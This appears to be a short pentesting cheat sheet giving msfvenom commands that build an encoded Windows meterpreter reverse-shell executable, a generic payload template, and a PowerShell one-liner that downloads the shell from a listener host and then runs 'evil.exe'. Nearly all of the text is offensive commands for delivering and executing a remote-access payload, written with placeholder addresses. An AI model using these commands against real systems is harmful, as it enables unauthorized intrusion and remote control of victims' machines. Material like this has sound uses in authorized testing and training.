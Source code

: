 # list payloads
`msfvenom --list payloads`
# examples
- `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`
- `msfvenom -p <os>/<arch>/<type>/<connectivity> -f <filetype> -o <filename> LHOST=<listen-IP> LPORT=<listen-port>`

# Download payload
## windows
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

`start-process evil.exe`

### linux
- wget
- curl
- scp
- ftp

